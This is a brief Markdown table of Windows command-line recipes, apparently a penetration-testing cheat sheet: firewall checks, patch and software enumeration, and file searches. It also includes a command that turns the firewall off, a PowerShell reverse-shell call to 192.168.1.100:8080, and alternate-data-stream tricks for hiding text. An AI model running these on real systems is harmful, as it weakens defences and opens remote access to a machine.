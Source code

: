 ## Windows Commands
span style="color:red">
|:---	|---:|
|commands 	|description|
|:---	|---:|
|`netsh advfirewall show allprofiles state`|windows firewall check status|
|:---	|---:|
|`netsh advfirewall show currentprofile`|windows firewall show profile|
|:---	|---:|
|`netsh advfirewall firewall show rule name=all`|windows firewall show rules|
|:---	|---:|
|`netsh advfirewall set allprofiles state off`|windows firewall disable|
|:---	|---:|
|`netsh advfirewall set allprofiles state on`|windows firewall enable|
|:---	|---:|
|`wmic product get name, version, vendor`|list installed applications|
|:---	|---:|
|`wmic qfe get Caption, Description, HotFixID, InstalledOn`|list installed patch|
|:---	|---:|
|`where /R C:\ file.exe`|search file|
|:---	|---:|
|`type file.txt | findstr /si "KB5013624"`|search content|
|:---	|---:|
|`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 8080`|powershell reverse tcp|
|:---	|---:|
|`echo secrettext > file.txt:showme`|create file with alternate data stream(ADS)|
|:---	|---:|
|`dir /R`|inspect file with alternative data stream(ADS)|
|:---	|---:|


</span>
